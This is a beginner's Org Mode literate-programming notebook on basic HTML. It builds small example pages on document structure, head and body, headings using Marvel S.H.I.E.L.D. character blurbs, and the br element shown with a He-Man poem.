[[file:images/2025-09-26_seinfeld_checked.jpeg]]

* [2025-09-24 Wed]
So, we're learning Web Dev.
Well, at least /I/ am!

Let's make it easier and more fun with Literate Programming in Org Mode.

Starting from the fundamentals.
Web pages are all about navigating through content.
To make things easier, we have:
- HTML, for /structure/;
- CSS, for /style/;
- Javascript, for /logic/.


A minimal html page [[https://html.spec.whatwg.org/multipage/syntax.html?utm_source=chatgpt.com#writing][must have]]:

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
</html>
#+end_src

Here:
- ~<!DOCTYPE html>~ is the /Document Type Declaration/; it tells the browser the specifications that the page follows.
- ~<html>~ and ~</html>~ enclose the page itself.

The fundamental element of a web page is... well, an =element=.
By definition, an =element= is composed by (example inside the parentheses):
- opening tag (~<html>~);
- everything in between (called /content/);
- closing tag (~</html>~).

The page is made of a /sequence of elements/.

Some elements may be /empty/: they don't have a closing tag.
Example: ~<!DOCTYPE html>~.

A /cool/ first web page would be:

[[file:hello-world.html][hello-world.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
  <p>Hello, World!</p>
</html>
#+end_src

*NOTE:* Here the /contents/ of the =element= ~<p>~ are "Hello, world!".

The ~<html>~ element contains all the elements of the whole page.
Only two tags should be immediately inside it: ~<head>~ and ~<body>~.
~<head>~ contains /metadata/; more about this below.
~<body>~ contains all the /visible/ elements of the page.

Then, each element of the page is either inside ~<head>~ or ~<body>~.
This is illustrated below.

#+begin_src :noweb no
<html>
|
+- <head>
|
+- <body>
#+end_src

To help make things more clear, we'll call
- /Document/: the elements ~<!DOCTYPE>~ and ~<head>~ together, and
- /Page/: the ~<body>~ element.


For instance: ~hello-world.html~ contains the whole /document/.
When we open it on a browser, we see the (obviously /visible/) /page/, which is inside ~<body>~.

Let's then fix our first page!
It had a ~<p>~ element immediately inside ~<html>~, which is against the specs.
It must be inside ~<body>~.

We also have to add a ~<head>~ inside ~<html>~.
We could leave it empty, but that's not cool.
We'll put a ~<title>~ inside it.
~<title>~ is the /page/ title, that appears as the "name" of the browser window or the page's tab in the browser.

[[file:hello-world-fixed.html][hello-world-fixed.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
  <head>
    <title>My first fixed page</title>
  </head>
  <body>
    <p>Hello, World!</p>
  </body>
</html>
#+end_src

If you open both ~hello-world.html~ and ~hello-world-fixed.html~, you'll see that they look the same.
This shows how /forgiving/ HTML is.
It really tries to help us get there.
Good on you, HTML!

To help organizing paragraphs, we have /headings/.
They give us /six/ of them: ~<h1>~ to ~<h6>~.

[[file:headings.html][headings.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
  <head>
    <title>Guess who my favorite was?</title>
  </head>
  <body>
    <h1>S.H.I.E.L.D. Team</h1>
    <h2>Nick Fury</h2>
    <p>Leading S.H.I.E.L.D. with an iron will and one eye on the bigger picture. He always anticipates threats before they happen. His presence commands respect across the superhero community. Nothing slips past his watchful eye.</p>

    <h2>Phil Coulson</h2>
    <p>The calm in the storm, proving loyalty is a superpower. Coulson bridges heroes and humans with tact and understanding. He carries a quiet strength that inspires trust. Even in chaos, his steady hand guides the team.</p>

    <h2>Maria Hill</h2>
    <p>Strategic, precise, and always ready for action. Hill can handle the toughest missions with clarity and focus. Her decisiveness keeps S.H.I.E.L.D. running smoothly. She never hesitates when lives are on the line.</p>

    <h2>Melinda May</h2>
    <p>The Cavalry—silent, deadly, and unstoppable. May’s combat skills are unmatched in the field. Beneath her stoic exterior lies fierce loyalty to her team. Every mission she undertakes is executed with perfection.</p>

    <h2>Leopold Fitz</h2>
    <p>Brains behind the tech, making the impossible possible. Fitz’s inventions often turn the tide in dire situations. His curiosity drives constant innovation. Even under pressure, his intellect shines brilliantly.</p>

    <h2>Skye</h2>
    <h3>Hacker</h3>
    <p>Skye starts out as a brilliant hacker, using her skills to uncover secrets and fight for justice from the shadows. Her curiosity and determination make her a force to be reckoned with. Even before joining S.H.I.E.L.D., she proves she can challenge the system.</p>

    <h3>Agent</h3>
    <p>Joining S.H.I.E.L.D., Skye becomes a trained field agent, learning to balance her intellect with physical skill. She adapts quickly to missions, proving her value to the team. Her loyalty and resourcefulness grow stronger with every challenge.</p>

    <h3>Daughter</h3>
    <p>Skye discovers her true identity as Daisy Johnson, the daughter of a powerful Inhuman. This revelation reshapes her understanding of herself and her powers. She struggles but ultimately embraces her heritage, gaining confidence and purpose.</p>

    <h3>Leader</h3>
    <p>Over time, Skye evolves into a capable leader, guiding missions and protecting her team. Her experience as both an outsider and a hero gives her unique insight. She inspires others through courage, empathy, and decisiveness.</p>

    <h3>Quake</h3>
    <p>Fully embracing her abilities, Skye becomes Quake, wielding seismic powers to combat threats. She balances heroism with personal growth, using her strength to defend the world. Quake is the culmination of her journey, symbolizing resilience, power, and identity.</p>
  </body>
</html>
#+end_src

Interesting to note that the paragraphs inside a heading are *not* nested inside it.

Now comes the ~<br>~ element.
It forces a line break in the text.
It is an /empty/ element, meaning it has no content.
This implies it does *not* need nor have an end tag.

In the example below, the poem has two versions: in the first one, the line breaks are only in the source code, and the second version /forces/ them with ~<br>~.
Only the second one gets the expected result (well, at least on a big screen).

[[file:br.html][br.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html>
  <head>
    <title>br, but not for Brazil</title>
  </head>
  <body>
    <p>He-Man stands tall, sword held high,
      Shadows flee where his heroes fly.
      In Eternia’s heart, he lights the night,
      Strength and courage his endless might.</p>

    <p>He-Man stands tall, sword held high,<br>
      Shadows flee where his heroes fly.<br>
      In Eternia’s heart, he lights the night,<br>
      Strength and courage his endless might.</p>
  </body>
</html>
#+end_src

Now is a good time to note that the tag names are case-insensitive.
Very sensible of forgiving HTML.
But (there's always one (well, not /always/)) *lowercase is recommended* in general and *demanded* for stricter document types like XHTML.
Let's keep it down low then.
